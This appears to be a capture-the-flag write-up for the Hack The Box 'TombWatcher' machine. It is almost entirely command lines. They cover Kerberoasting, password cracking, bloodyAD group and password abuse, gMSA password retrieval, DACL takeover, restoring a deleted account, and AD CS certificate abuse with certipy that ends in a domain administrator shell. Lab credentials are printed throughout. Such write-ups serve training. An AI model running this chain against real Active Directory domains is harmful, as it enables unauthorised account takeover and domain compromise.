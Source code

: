 # TombWatcher HTB Report

## 1. Initial Enumeration

We started by scanning the target machine to identify open ports and services.

```bash
nmap -p- -sS -vvv 10.10.11.72
nxc smb 10.10.11.72 | grep "domain:" | sed 's/.*(name:\([^)]*\)).*(domain:\([^)]*\)).*/\1 \2/' | while read NAME DOMAIN; do echo "10.10.11.72    $NAME $NAME.$DOMAIN $DOMAIN"; done | sudo tee -a /etc/hosts
```

## 2. User Enumeration

With the initial information, we proceeded to enumerate users using LDAP.

```bash
nxc ldap 10.10.11.72 -u 'henry' -p 'H3nry_987TGV!' --bloodhound --collection All --dns-server 10.10.11.72
```

## 3. Kerberoasting

We then attempted to extract service account hashes through Kerberoasting.

```bash
targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!'
```

## 4. Password Cracking

The captured hash was cracked using John the Ripper and a wordlist.

```bash
/john --wordlist=/home/user/wordlists/rockyou.txt /home/user/htb/tombwatcher/hashes.txt
```

**Cracked Password:** `basketball` for user `alfred`.

## 5. Privilege Escalation

### 5.1. Adding User to Group

We added the `alfred` user to the `INFRASTRUCTURE` group.

```bash
bloodyAD --host '10.10.11.72' -d 'DC01.tombwatcher.htb' -u 'alfred' -p 'basketball'  add groupMember 'INFRASTRUCTURE' alfred
```

### 5.2. Retrieving Managed Password

We retrieved the managed password for the `ANSIBLE_DEV$` account.

```bash
bloodyAD -u alfred -d 'DC01.tombwatcher.htb' -p basketball --host '10.10.11.72' get object 'ANSIBLE_DEV$' --attr msDS-ManagedPassword
```

### 5.3. Setting New Password

We set a new password for the `SAM` user.

```bash
bloodyAD --host DC01.tombwatcher.htb -d tombwatcher.htb -u 'ANSIBLE_DEV$' -p :7bc5a56af89da4d3c03bc048055350f2 set password SAM "newP@ssword2025"
```

### 5.4. Taking Ownership

We took ownership of the `JOHN` object.

```bash
bloodyAD --host DC01.tombwatcher.htb -d tombwatcher.htb -u SAM -p "newP@ssword2025" set owner JOHN SAM
```

### 5.5. Gaining Full Control

Finally, we granted `FullControl` rights to the `SAM` user over the `JOHN` object.

```bash
dacledit.py -action 'write' -rights 'FullControl' -principal 'SAM' -target 'JOHN' 'tombwatcher.htb'/'SAM':'newP@ssword2025'
```

### 5.6 Change Password of JOHN
```bash
bloodyAD --host DC01.tombwatcher.htb -d tombwatcher.htb -u 'SAM' -p 'newP@ssword2025' set password JOHN "newP@ssword2025"
```

# Login with evil-winrm-py
```bash
evil-winrm-py -i 10.10.11.72 -u JOHN -p "newP@ssword2025"
```

# Enumerate CA, templates, and highlight vulns (ESC1/2/3/6/7/8)
```bash
certipy find -u 'JOHN@tombwatcher.htb' -p 'newP@ssword2025' -dc-ip 10.10.11.72 -vulnerable -stdout
```

# Find deleted accounts:
```powershell
Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects -Properties *
```

# Restore deleted accounts:
```powershell
Restore-ADObject -Identity "CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb"
```
# Enable cert_admin account
```bash
Enable-ADAccount -Identity cert_admin
```

# Change cert_admin password using bloodyAD
```bash
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString 'P@ssw0rd123!' -AsPlainText -Force)
```

# Find vulnerable templates
```bash
certipy find -u 'cert_admin@tombwatcher.htb' -p 'P@ssw0rd123!' -dc-ip 10.10.11.72 -vulnerable -stdout
```

certipy req -u 'cert_admin@tombwatcher.htb' -p 'P@ssw0rd123!' -ca 'tombwatcher-CA-1' -template 'User' -dc-ip 10.10.11.72

certipy auth -pfx cert_admin.pfx -dc-ip 10.10.11.72

```bash
certipy req -u 'cert_admin@tombwatcher.htb' -p 'P@ssw0rd123!' -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' -ca 'tombwatcher-CA-1' -template 'WebServer' -upn 'administrator@tombwatcher.htb' -application-policies 'Client Authentication'
```
#login as admin
```bash
certipy auth -dc-ip '10.10.11.72' -pfx 'administrator.pfx' -domain 'tombwatcher.htb' -ldap-shell
```
